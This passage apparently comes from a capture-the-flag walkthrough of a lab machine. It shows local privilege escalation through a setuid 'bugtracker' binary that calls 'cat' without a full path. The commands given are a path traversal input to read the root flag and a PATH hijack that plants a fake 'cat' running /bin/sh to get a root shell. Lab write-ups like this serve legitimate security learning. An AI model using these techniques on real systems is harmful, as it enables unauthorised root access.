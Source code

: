     ------------------
    : EV Bug Tracker :
    ------------------
    Provide Bug ID: 
    ---------------
    cat /root/reports/
    ;*3$"
    GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0


We can also use `ltrace` to see exactly what the calls do:
    robert@oopsie:~$ ltrace /usr/bin/bugtracker
    
And also from here, we can see more detailed the function that executes the `cat` command.This output shows also that, on the setuid line, setuid is setting the UID as 0 which is root. And doing an `ls -la` we can see the stickybit is set.
    
All this means we can exploit this `cat` command. Let's analyze for first the job of bugtracker:
    
    robert@oopsie:~$ /usr/bin/bugtracker

    ------------------
    : EV Bug Tracker :
    ------------------
    
    Provide Bug ID: 1
    ---------------
    
    Binary package hint: ev-engine-lib
    
    Version: 3.3.3-1
    
    Reproduce:
    When loading library in firmware it seems to be crashed
    
    What you expected to happen:
    Synchronized browsing to be enabled since it is enabled for that site.
    
    What happened instead:
    Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.


We can manage this scenario in several ways:
* Use `cat` command in bugtracker to reach the flag file:
    ```
    robert@oopsie:~$ bugtracker
    
    ------------------
    : EV Bug Tracker :
    ------------------
    
    Provide Bug ID: ../root.txt
    ```

* Hijacking the `PATH` environment variable and execute a shell by creating a malicious cat binary (more elegant and efficient solution):
    ```
    robert@oopsie:~$ export PATH=/tmp:$PATH
    robert@oopsie:~$ cd /tmp/
    robert@oopsie:/tmp$ echo '/bin/sh' > cat
    robert@oopsie:/tmp$ chmod +x cat
    robert@oopsie:/tmp$ cd
    robert@oopsie:~$ bugtracker 
    